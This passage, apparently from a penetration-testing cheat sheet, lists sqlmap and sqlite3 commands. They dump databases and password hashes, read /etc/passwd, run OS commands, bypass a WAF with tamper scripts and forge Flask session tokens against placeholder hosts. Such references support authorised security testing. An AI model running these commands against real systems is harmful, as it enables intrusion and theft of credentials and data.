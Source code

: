 ### Table Example

```console
$ sqlite3 <DATABASE>.db ".tables"
$ sqlite3 <DATABASE>.db ".schema <TABLE>"
$ sqlite3 <DATABASE>.db "SELECT * FROM <TABLE>;"
```

## sqlmap

> https://github.com/sqlmapproject/sqlmap

```console
--batch         // don't ask any questions
--current-db    // dumps database
```

```console
$ sqlmap --list-tampers
$ sqlmap -r <FILE>.req --level 5 --risk 3 --threads 10
$ sqlmap -r <FILE>.req --level 5 --risk 3 --tables
$ sqlmap -r <FILE>.req --level 5 --risk 3 --tables -D <DATABASE> --dump
$ sqlmap -r <FILE>.req --level 5 --risk 3 --tables users --dump --threads 10
$ sqlmap -r <FILE>.req -p <ID>
$ sqlmap -r <FILE>.req -p <ID> --dump
$ sqlmap -r <FILE>.req -p <ID> --passwords
$ sqlmap -r <FILE>.req -p <ID> --read-file+/etc/passwd
$ sqlmap -r <FILE>.req -p <ID> --os-cmd=whoami
$ sqlmap -r <FILE>.req  --dbs -D <DATABASE> -T <TABLE> --force-ssl --dump
$ sqlmap -r <FILE>.req  --dbs -D <DATABASE> -T <TABLE> -C id,is_staff,username,password --where "is_staff=1" --force-pivoting -pivot-column id --force-ssl --dump
```

### Web Application Firewall (WAF) Bypass

```console
$ sqlmap -u 'http://<RHOST>/search.cmd?form_state=1' --level=5 --risk=3 tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --no-cast --no-escape --dbs --random-agent
```

### Using Cookies

```console
$ sqlmap -u 'http://<RHOST>/dashboard.php?search=a' --cookie="PHPSESSID=c35v0sipg7q8cnpiqpeqj42hhq"
```

### Using Flask Token

```console
$ sqlmap http://<RHOST>/ --eval="FROM flask_unsign import session as s; session = s.sign({'uuid': session}, secret='<SECRET_KEY>')" --cookie="session=*" --delay 1 --dump
```
